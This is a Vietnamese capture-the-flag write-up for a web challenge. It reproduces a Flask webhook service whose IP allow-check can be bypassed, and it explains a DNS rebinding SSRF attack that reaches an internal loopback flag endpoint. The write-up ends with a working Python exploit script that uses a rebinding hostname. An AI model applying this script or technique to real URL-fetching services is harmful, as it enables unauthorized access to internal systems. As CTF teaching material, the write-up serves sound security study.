


# WEB
** Intergalactic Webhook Service **
*I got tired of creating webhooks from online sites, so I made my own webhook service! It even works in outer space! Be sure to check it out and let me know what you think. I'm sure it is the most secure webhook service in the universe.*
[chall](https://supernova.sunshinectf.games/)
## Tóm tắt
Trang web cho phép nhập URL, tận dụng lổ hổng để thực hiện SSRF (DNS rebinding) để truy cập server và lấy được flag 
## Khai thác 
SRC đính kèm của chall
```
import threading
from flask import Flask, request, abort, render_template, jsonify
import requests
from urllib.parse import urlparse
from http.server import BaseHTTPRequestHandler, HTTPServer
import socket
import ipaddress
import uuid

def load_flag():
    with open('flag.txt', 'r') as f:
        return f.read().strip()

FLAG = load_flag()

class FlagHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        if self.path == '/flag':
            self.send_response(200)
            self.send_header('Content-Type', 'text/plain')
            self.end_headers()
            self.wfile.write(FLAG.encode())
        else:
            self.send_response(404)
            self.end_headers()

threading.Thread(target=lambda: HTTPServer(('127.0.0.1', 5001), FlagHandler).serve_forever(), daemon=True).start()

app = Flask(__name__)

registered_webhooks = {}

def create_app():
    return app

@app.route('/')
def index():
    return render_template('index.html')

def is_ip_allowed(url):
    parsed = urlparse(url)
    host = parsed.hostname or ''
    try:
        ip = socket.gethostbyname(host)
    except Exception:
        return False, f'Could not resolve host'
    ip_obj = ipaddress.ip_address(ip)
    if ip_obj.is_private or ip_obj.is_loopback or ip_obj.is_link_local or ip_obj.is_reserved:
        return False, f'IP "{ip}" not allowed'
    return True, None

@app.route('/register', methods=['POST'])
def register_webhook():
    url = request.form.get('url')
    if not url:
        abort(400, 'Missing url parameter')
    allowed, reason = is_ip_allowed(url)
    if not allowed:
        return reason, 400
    webhook_id = str(uuid.uuid4())
    registered_webhooks[webhook_id] = url
    return jsonify({'status': 'registered', 'url': url, 'id': webhook_id}), 200

@app.route('/trigger', methods=['POST'])
def trigger_webhook():
    webhook_id = request.form.get('id')
    if not webhook_id:
        abort(400, 'Missing webhook id')
    url = registered_webhooks.get(webhook_id)
    if not url:
        return jsonify({'error': 'Webhook not found'}), 404
    allowed, reason = is_ip_allowed(url)
    if not allowed:
        return jsonify({'error': reason}), 400
    try:
        resp = requests.post(url, timeout=5, allow_redirects=False)
        return jsonify({'url': url, 'status': resp.status_code, 'response': resp.text}), resp.status_code
    except Exception:
        return jsonify({'url': url, 'error': 'something went wrong'}), 500

if __name__ == '__main__':
    print('listening on port 5000')
    app.run(host='0.0.0.0', port=5000)
```

1. Phân tích 
- Tại /register và /trigger đều sử dụng hàm is_ip_allowed để phân giải tên miền ra ip nhưng bị cấm cả ip loopback và ipPrivate , localhost 
- Sử dụng kĩ thuật DNS rebinding để lừa server phân tích lần đầu là 1 địa chỉ ip hợp lệ vd 8.8.8.8 và trong lần phân giải DNS lần 2 ta sẽ trỏ đến ip 127.0.0.1 để lấy flag 
2. Sử dụng [tool](https://lock.cmpxchg8b.com/rebinder.html) để tạo link 

ping thử 

Tạo thành công 
3. Viết script khai thác 
```
import requests
import time
import socket

# Target server
TARGET_URL = "https://supernova.sunshinectf.games"

# Rebinding webhook URL (thêm /flag và port 5001)
REBIND_URL = "http://08080808.7f000001.rbndr.us:5001/flag"


print("Đang register webhook...")
register_data = {"url": REBIND_URL}
response = requests.post(f"{TARGET_URL}/register", data=register_data)

if response.status_code != 200:
    print(f"Lỗi register: {response.text}")
    exit(1)

try:
    result = response.json()
    webhook_id = result["id"]
    print(f"Webhook registered! ID: {webhook_id}")
except:
    print(f"Lỗi parse JSON: {response.text}")
    exit(1)

time.sleep(5)


try:
    ip = socket.gethostbyname("08080808.7f000001.rbndr.us")
    print(f"DNS resolve hiện tại: {ip} (nên là 127.0.0.1 nếu rebinding thành công)")
except:
    print("Không resolve được domain")

# Bước 3: Trigger webhook
print("Đang trigger webhook...")
trigger_data = {"id": webhook_id}
response = requests.post(f"{TARGET_URL}/trigger", data=trigger_data)

if response.status_code == 200:
    try:
        result = response.json()
        print(f"Thành công! Status: {result.get('status', 'N/A')}")
        print(f"Response: {result.get('response', 'No response')}")
        # Flag thường ở đây nếu rebinding đúng
    except:
        print(f"Response JSON lỗi: {response.text}")
else:
    print(f"Lỗi trigger: {response.status_code} - {response.text}")

```

